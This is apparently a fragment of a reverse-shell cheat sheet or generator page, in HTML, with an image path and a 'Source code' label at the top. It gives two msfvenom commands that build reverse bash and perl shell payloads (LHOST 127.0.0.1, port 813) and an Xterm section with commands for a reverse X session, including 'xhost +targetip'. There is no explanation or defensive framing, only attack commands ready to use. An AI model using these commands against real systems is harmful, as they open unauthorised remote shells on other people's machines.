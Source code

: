 <pre id="msf12">msfvenom -p cmd/unix/reverse_bash LHOST="127.0.0.1" LPORT=813 -f raw > shell.sh</pre>
<pre id="msf13">msfvenom -p cmd/unix/reverse_perl LHOST="127.0.0.1" LPORT=813 -f raw > shell.pl</pre>


<h3>Xterm:</h3>
<pre id="xterm001">xterm -display 127.0.0.1:1
Xnest :1
xhost +targetip</pre>
